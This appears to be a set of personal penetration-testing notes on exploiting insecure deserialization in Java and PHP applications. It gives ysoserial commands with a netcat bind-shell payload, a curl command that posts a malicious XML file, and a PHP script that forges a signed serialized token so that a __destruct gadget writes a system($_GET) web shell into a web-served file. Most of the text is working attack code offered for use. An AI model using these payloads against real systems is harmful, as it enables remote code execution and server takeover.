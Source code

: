 ### When a cookie appears to be b64 - decode in burp (to get hex output) and look for nullbytes in the string, this is a good indication that the object is serialized  
 ** Once you run through the steps to generate the payload, we simply replace the serialized cookie with our payload
 
### To lauch a malicious .xml at a page:
 ** `curl http://target.site/orders.xhtml -X POST -H 'Content-Type: application/xml' --data @payload.xml`
 
### `ysoserial` usage  
 ** Either identify exactly which library is available OR run through each payload  
 ** Base 64 encode your output, so pipe into base64 `<ysoserial and args> | base64`  
 ** `java -jar ysoserial.jar <payload type> <command>` EG `java -jar ysoserial.jar Spring1 'nc -l -p 3443 -e /bin/sh'`  
 
### Functions to look for in source code as a trampoline gadget to jump to from `unserialize` function
 ** `__wakeup`
 ** `__destruct` - works because of how the below code writes to file - we can control what goes in there:
 ```
 function __destruct() {
    \/\/ Loogging access 
    $fd = fopen($this->logfile, 'a'); 
    fwrite($fd, $_GET['action'].\":\".$this->uuid.' by '.$this->owner.\"\
\");
```
We can see the above code exploited as below, let's say we discovered an LFI that allowed us to obtain the source code used for serialization, thus allowing us to serialize the payload to be executed by `__destruct` 
```
<?php
define('KEY', "ooghie1Z Fae8aish OhT3fie6 Gae2aiza");

function sign($data) {
  return hash_hmac('md5', $data, KEY);
}
function tokenize($user) {
    $token = urlencode(base64_encode(serialize($user))); 
    $token.= "--".sign($token); 
    return $token;
}
class File {
  public $owner,$uuid, $content; //change to public $owner,$uuid='<?php system($_GET["c"]);?>';
  public $logfile = "/var/www/logs/application.log"; //change to public $logfile = "/var/www/zzz.php
}
echo tokenize(new File());
?>
```
The above spits out a token when ran which we can then send in a request to the server to be deserialized - we need to be careful that we send to the correct endpoint to ensure correct handling.
